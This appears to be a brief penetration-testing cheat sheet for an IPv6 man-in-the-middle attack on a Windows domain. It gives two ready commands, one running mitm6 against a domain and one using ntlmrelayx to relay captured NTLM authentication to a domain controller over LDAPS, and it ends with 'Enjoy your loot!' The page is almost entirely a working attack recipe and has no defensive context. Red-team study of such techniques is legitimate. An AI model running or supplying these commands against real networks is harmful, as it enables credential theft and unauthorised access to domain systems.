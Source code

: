 ### Essentially, we become Man-in-the-Middle using IPv6

## Tool: mitm6

## Steps: 

#### 1) sudo mitm6 -d DOMAIN

#### 2) ntlmrelayx.py -6 -t ldaps://DC_IP -wh FAKE.DOMAIN -l FOLDER (Run this first!)

#### 3) Enjoy your loot! (Enumerates EVERYTHING that tries to authenticate against the target)
